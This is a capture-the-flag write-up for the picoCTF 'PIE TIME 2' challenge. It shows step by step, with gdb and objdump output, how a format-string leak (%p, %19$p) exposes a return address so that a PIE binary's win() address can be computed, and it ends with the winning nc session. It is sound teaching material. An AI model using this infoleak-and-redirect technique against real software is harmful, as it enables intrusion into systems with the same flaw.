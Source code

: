 # PIE TIME 2 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #PIE #formatstring #infoleak #ASLR`

## Description ##

Can you try to get the flag? I'm not revealing anything anymore!!

## Approach ##

Checking the binary securities to confirm as we expect given the name of the challenge, the binary is indeed a Position Independent Executable (PIE), as per the previous [PIE TIME](../PIE%20TIME/PIE%20TIME.md) challenge.

    $ checksec vuln
    [*] '/home/user/picoCTF/PIE-TIME-2/vuln'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled

Inspecting the provided `vuln.c` source file, we see `main()` calls the function `call_functions()`.

    int main() {
      signal(SIGSEGV, segfault_handler);
      setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

      call_functions();
      return 0;
    }

Where `call_functions()` again requests an address from the user, that is used as a function pointer and called.

    void call_functions() {
      char buffer[64];
      printf("Enter your name:");
      fgets(buffer, 64, stdin);
      printf(buffer);

      unsigned long val;
      printf(" enter the address to jump to, ex => 0x12345: ");
      scanf("%lx", &val);

      void (*foo)(void) = (void (*)())val;
      foo();
    }

We cannot overflow the `buffer` as the `fgets()` is using the correct value for the buffers `size`. However the data we input for the name request is printed directly via the subsequent `printf(buffer)` call. Noting not as parameter within a format string (such as `%s`), hence this `printf()` call is vulnerable to a format string attack.

The format string vulnerability will be used in a form to leak information from the stack, in this case we are looking for the return address from `call_functions()` back to `main()` (or more precisely `<main+65>`).

So our plan of attack is;

- determine what the value of the return address is as an absolute address.
- use a format string attack to leak contents of the stack in an attempt to locate this return address, identifying its position on the stack.
- calculate the relative offset from the target return address `<main+65>` to the `win()`function, such that we can adjust the leaked absolute address value by this relative offset to determine an absolute address of the `win()` function for the current execution.

Running `vuln` in `gdb` to assist with locating the return address within the format string based infoleak. Remembering that Address Space Layout Randomisation (ASLR) and PIE are typically disabled when processes are being debugged in `gdb`, just to keep things relatively static for our analysis across executions.

    $ gdb ./vuln
    $ br call_functions
    $ r

When execution breaks at the entry of `call_functions()` we can inspect the stack and see our absolute return address to `<main+65>` is `0x00555555555441`.

    ───────────────────────────────────────────────────────────────────── stack ────
    0x007fffffffdfb0│+0x0000: 0x007fffffffdfc0  →  0x0000000000000001  ← $rsp, $rbp
    0x007fffffffdfb8│+0x0008: 0x00555555555441  →  <main+65> mov eax, 0x0
    0x007fffffffdfc0│+0x0010: 0x0000000000000001
    0x007fffffffdfc8│+0x0018: 0x007ffff7c29d90  →  <__libc_start_call_main+128> mov edi, eax
    0x007fffffffdfd0│+0x0020: 0x0000000000000000
    0x007fffffffdfd8│+0x0028: 0x00555555555400  →  <main+0> endbr64 
    0x007fffffffdfe0│+0x0030: 0x00000001ffffe0c0
    0x007fffffffdfe8│+0x0038: 0x007fffffffe0d8  →  0x007fffffffe408  →  "/home/user/picoCTF/PIE-TIME-2/vuln"

Now continuing execution, we are prompted for our "name" input, at which point we can use a typical infoleak format string construction to leak contents of the stack, by requesting the value of a series of pointers (`%p`) be printed. Given there are no actual arguments supplied  to the `printf()` call, this will print values from the stack (actual stack contents) from where the arguments would have been located if provided.

The `%p.` input string was created using python's CLI for convenience in preparation to copy and paste, when input was requested by the running instance within `gdb`:

    $ python3 -c 'print("%p."*20)'
    %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.

The periods in the string just help to isolate individual values and assist with readability, but are certainly not a requirement.

    $ c
    Continuing.
    Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
    0x5555555592a1.0xfbad2288.0x5555555592dd.(nil).0x5555555592a0.(nil).0x7ffff7e1b780.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x7fffffffe108.0xdca80e800e918600.0x7fffffffdff0.0x555555555441.0x1.

From the output, we find our return address of `0x00555555555441` at the 19'th value (or argument) displayed.

Remembering when it comes to the actual attack on the challenge server a short hand format string to print only the 19'th value is: `%19$p`.

Using `objdump` I found the offsets of the return address within `main()` `<main+65>` from `call_functions()` and the `win()` function. Remembering as the code segment is position independent, we are only interested in the relative offsets not absolute values. Note that this could have been done easily enough from within `gdb` rather than using `objdump`.

    $ objdump -M intel -d vuln > objdump_vuln.txt

        0000000000001400 <main>:
            1400: f3 0f 1e fa           endbr64 
            1404: 55                    push   rbp
            1405: 48 89 e5              mov    rbp,rsp
            1408: 48 8d 35 9a fe ff ff  lea    rsi,[rip+0xfffffffffffffe9a]        # 12a9 <segfault_handler>
            140f: bf 0b 00 00 00        mov    edi,0xb
            1414: e8 57 fd ff ff        call   1170 <signal@plt>
            1419: 48 8b 05 f0 2b 00 00  mov    rax,QWORD PTR [rip+0x2bf0]        # 4010 <stdout@GLIBC_2.2.5>
            1420: b9 00 00 00 00        mov    ecx,0x0
            1425: ba 02 00 00 00        mov    edx,0x2
            142a: be 00 00 00 00        mov    esi,0x0
            142f: 48 89 c7              mov    rdi,rax
            1432: e8 49 fd ff ff        call   1180 <setvbuf@plt>
            1437: b8 00 00 00 00        mov    eax,0x0
            143c: e8 86 fe ff ff        call   12c7 <call_functions>
        ->  1441: b8 00 00 00 00        mov    eax,0x0
            1446: 5d                    pop    rbp
            1447: c3                    ret    

and,

        000000000000136a <win>:
            136a: f3 0f 1e fa           endbr64 
            136e: 55                    push   rbp
            136f: 48 89 e5              mov    rbp,rsp
            1372: 48 83 ec 10           sub    rsp,0x10
            ...

The return address offset within `main()` `<main+64>` is `0x1441` and `win()` function offset is `0x136a`. Therefore the relative offset is:

    0x1441 - 0x136a = 0xD7

So we now have everything we need to run the attack on the challenge server.

## Solution ##

Running the attack on the challenge server:

    $ nc rescued-float.picoctf.net 65060
    Enter your name:%19$p
    0x5bd617cbc441
     enter the address to jump to, ex => 0x12345: 0x5BD617CBC36A
    You won!
    picoCTF{...........redacted.............}

The absolute return address back of `<main+65>` for this invocation was `0x5bd617cbc441`.

Therefore `0x5bd617cbc441 - 0xd7 = 0x5BD617CBC36A`. Inputting this calculated  absolute address of the `win()` function dropped us the flag.

Where the actual flag value has been redacted for the purposes of this write up.
